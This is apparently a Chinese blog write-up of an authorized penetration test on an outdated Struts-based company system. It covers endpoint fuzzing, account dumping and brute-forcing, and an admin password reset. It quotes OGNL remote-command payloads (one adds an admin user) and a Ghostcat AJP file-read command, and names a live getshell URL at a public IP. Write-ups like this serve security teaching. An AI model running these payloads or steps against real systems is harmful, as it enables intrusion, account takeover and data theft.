





# 从未授权访问到进一步的实践

## 一、前置背景

​	对公司一个看似没有任何内容的PRS系统进行渗透，中间试图放弃，但凭借更精细的信息收集和联想（利用ai+经验），最后成功拿到结果。
​	**说明：该目标为公司系统，经过授权测试。**

## 二、实践历程

### 1.信息收集

​	拿到资产开始访问，跳转到一个登录界面如下：


​	输入常规弱密码 amin:123456显示error，点击注册也是返回一个空页面，一度以为这个页面是个假页面，没有继续使用了。


#### 1.1 目录爆破

​	没有得到任何有用的目录，也是想放弃。


#### 1.2 JS泄露路径

​	发现JS泄露了一些接口信息，把它拼接起来进行访问


​	其中的一个接口，返回了


​	通过错误信息，知道采用了struts框架，这里只知道struts框架比较出名的RCE漏洞是通过OGNL表达式注入达到目的。
这里试了几个以前别人打过的OGNL表达式传给id：

```
#2013年 FreeCms 命令执行 POC:

(#context["xwork.MethodAccessor.denyMethodExecution"]= new java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]= new java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('net user admin admin /add'))(meh)&z[(user.loginname)('meh')]=true
```

```
#2015年 山西运城学院struts2 POC【这里看是不是开启了debug】:

?debug=command&expression=new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.ProcessBuilder({'whoami'}).start().getInputStream())).readLine()

```

但后面才知道，方向打偏了，该资产并没有采用struts2，可以看上面的图，

- 查看返回堆栈：如果全是 org.apache.struts.action 开头，那是 Struts1
- 如果出现 org.apache.struts2.interceptor, xwork 等关键词，是 Struts2
  而**struts1**是本身**不支持OGNL表达式**

但是同时也知道了这个站的技术栈确实很老了。

### 2.接口FUZZ构造

仔细观察这个接口：

```
/productBase.do?method=delete&id=
```

尝试构造了：

```
/user.do?method=deleteUser&id=
```

先是提示 删除失败


然后返回了所有账户信息


### 3.账户爆破

将上面拿到的所有账户保存下来，形成一个字典表，然后找到常用密码字典，进行爆破，成功拿到2个账户：


成功登录其中一个如下：


### 4.垂直/水平越权

再次借助findsomething插件，找到以下接口

```
/user.do
/user.do?method=UpdatePassword&id=
/user.do?method=deleteUser&id=
/user.do?method=goListIndex&current=
/user.do?method=goSearch&searchtext=
```

访问

```
/user.do?method=UpdatePassword&id=1
```

成功重置管理员账户，这里也是猜的，并不知道id=1就是admin账户，没想到成功登录了


登录管理员账户如下


猜测：/user.do?method=deleteUser&id=也存在越权

### 5.找上传点尝试getshell

借助burp，发现有KindEditor 编辑器，且该版本存在上传漏洞


详情参阅 kindeditor<=4.1.5上传漏洞复现
但是公司的站点已经没有上面文章提到的漏洞点页面了。
还有一些其他的上传点


上传东西之后，不给任何返回，虽然响应码为200，但无法判断是否上传成功，这里由于在内部，可以和研发沟通之前找到的敏感信息，猜测上传成功后文件的位置，让研发帮忙看一下。


### 6.进一步的尝试【新】

```
ajp漏洞 对webINF目录下的文件读取
```


```
python2 CNVD-2020-10487-Tomcat-Ajp-lfi.py ip -p 8009 -f WEB-INF/classes/applicationContext.xml
```


```
使用mysql:password 成功登录数据库
```




```
具备FILE权限
```



```
可任意位置写文件
```






入口点 [ http://124.160.225.82:9901/m/download/download.jsp](http://124.160.225.82:9901/m/download/download.jsp) getshell



## 三、总结

渗透测试就是一个看谁的心思更细腻的过程，没有找不到的漏洞。